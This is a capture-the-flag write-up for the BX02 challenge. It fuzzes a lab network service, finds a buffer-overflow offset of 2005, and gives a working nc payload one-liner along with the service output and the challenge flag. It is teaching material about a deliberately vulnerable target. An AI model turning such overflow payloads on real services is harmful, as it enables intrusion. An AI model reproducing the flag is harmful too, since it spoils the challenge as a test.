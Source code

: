 # BX02 - 100pts

## Briefing

> Access the network service at url: `cfta-bx02.allyourbases.co` port: `8013` and find a way to get the flag.

## Solution

1. It doesn't matter what input we give the service. It always tells us `DEBUG: Input length too large`. So, the first step is to see if we can find an input that is not too large. I wrote a Python [script.py](./script.py) to try every printable ascii character.

2. The [script.py](./script.py) finds that `#` is the only printable ASCII character that is considered short enough.

3. I tried sending a lot of `#`s by running `python -c "print('#'*4000)" | nc cfta-bx02.allyourbases.co 8013` and got this error `ERROR: Expected userID Variable of 1.`.

4. Maybe this service is vulnerable to a buffer overflow. Let's try to find an offset using a script similar to the one used for [BX01](../BX01/README.md). The next stage of [script.py](./script.py) does this. It keeps sending more and more `#`s until the message `ERROR: Expected userID Variable of 1` is shown. The offset is found to be `2005`.

5. A buffer overflow is successful. The final payload is: `python -c "print('#'*2005+'1'*30)" | nc cfta-bx02.allyourbases.co 8013`. The 30 `1`s is arbitrary. I tried one `1` and nothing changed so I tried 30 and it worked.

    ```
    Come Fuzz Me Bro.
    DEBUG: Waiting 100ms
    DEBUG: Waiting 100ms
    DEBUG: Waiting 100ms
    DEBUG: Waiting 100ms
    DEBUG: Waiting 100ms
    DEBUG: Waiting 100ms
    DEBUG: Waiting 100ms
    DEBUG: Waiting 100ms
    DEBUG: Waiting 100ms
    DEBUG: Waiting 100ms
    DEBUG: Waiting 100ms
    DEBUG: Waiting 100ms
    DEBUG: Waiting 100ms
    DEBUG: Waiting 100ms
    DEBUG: Input length too large.

    Flag: ThIsOneIsAbITFuZZy-6y
    DEBUG: Waiting 100ms
    ```

### Flag

`ThIsOneIsAbITFuZZy-6y`
